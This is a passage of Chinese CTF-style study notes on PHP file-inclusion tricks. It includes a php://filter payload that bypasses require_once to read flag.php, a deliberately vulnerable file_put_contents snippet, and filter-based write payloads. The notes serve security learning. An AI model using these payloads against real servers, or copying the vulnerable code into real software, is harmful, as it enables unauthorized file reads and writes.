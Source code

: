 同样压缩包后缀(.zip)改为别的也可以。

##### <<进阶

###### require_once绕过

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

参考：[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235#h2-0)

###### php://filter进阶用法

参数说明：

| 名称                        | 描述                                                         |
| :-------------------------- | :----------------------------------------------------------- |
| `resource=<要过滤的数据流>` | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
| `read=<读链的筛选列表>`     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| `write=<写链的筛选列表>`    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| `<;两个链的筛选列表>`       | 任何没有以 `read=` 或 `write=` 作前缀 的筛选器列表会视情况应用于读或写链。 |

- 写入文件：

  - ```php
    <?php
    $file = $_GET['file'];
    $content = $_GET['content'];
    file_put_contents($file, $content);
    ?>
    ```

  - 无编码：`?file=php://filter/resource=test.txt&content=flag`

  - base64编码：`?file=php://filter/write=convert.base64-encode/resource=test.txt&content=flag`

待补：

[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510) 

[file_put_contents学习笔记](https://blog.csdn.net/qq_62078839/article/details/124227983)

及更多相关文章。

###### pearcmd.php利用

待补：

[pearcmd.php的妙用](https://blog.csdn.net/RABCDXB/article/details/122050370)

[文件包含漏洞&伪协议](https://blog.csdn.net/qq_62078839/article/details/124208151)

及更多相关文章。
